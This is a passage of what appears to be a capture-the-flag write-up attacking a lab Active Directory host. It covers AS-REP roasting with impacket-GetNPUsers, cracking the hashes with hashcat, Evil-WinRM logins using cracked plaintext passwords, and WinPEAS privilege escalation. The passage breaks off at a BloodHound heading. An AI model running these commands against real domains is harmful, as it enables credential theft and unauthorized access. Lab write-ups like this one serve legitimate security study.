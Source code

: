 - **Check accounts without preauthentication and extract hashes:**
```
while read p; do impacket-GetNPUsers egotistical-bank.local/"$p" -request -no-pass -dc-ip 10.129.95.180 >> hash.txt; done < usernames.txt
```

- Iterates through usernames to identify accounts with Kerberos pre-authentication disabled and extracts AS-REP hashes.

---

## Password Cracking

- **Crack AS-REP hashes using hashcat:**

`hashcat -m 18200 hash.txt -o pass.txt /usr/share/wordlists/rockyou.txt --force`

- Uses hashcat to brute-force the cracked Kerberos AS-REP hashes with the rockyou.txt wordlist. `--force` bypasses warnings or compatibility issues.

---

## Remote Access via WinRM

- **Login using Evil-WinRM:**

`evil-winrm -i 10.129.95.180 -u fsmith -p 'Thestrokes23'`

- Establishes a remote PowerShell session on the Windows box with the cracked user credentials.

---

## Privilege Escalation

- **Run WinPEAS to enumerate escalate vectors:**

`.\winPEAS.exe`

- Enumerates permissions, users, passwords, and configurations revealing the user `svc_loanmgr` and its password.

- **Query the svc_loanmgr user group:**

`net user svc_loanmgr | Select-String -Pattern "remote"`

- Checks group membership in particular for Remote Management permissions.

- **Login with svc_loanmgr:**

`evil-winrm -i 10.129.95.180 -u svc_loanmgr -p 'Moneymakestheworldgoround!'`

- Obtains a higher privileged session with discovered password.

---

## Active Directory Attack Path Discovery

- **Gather domain attack graph using BloodHound:**

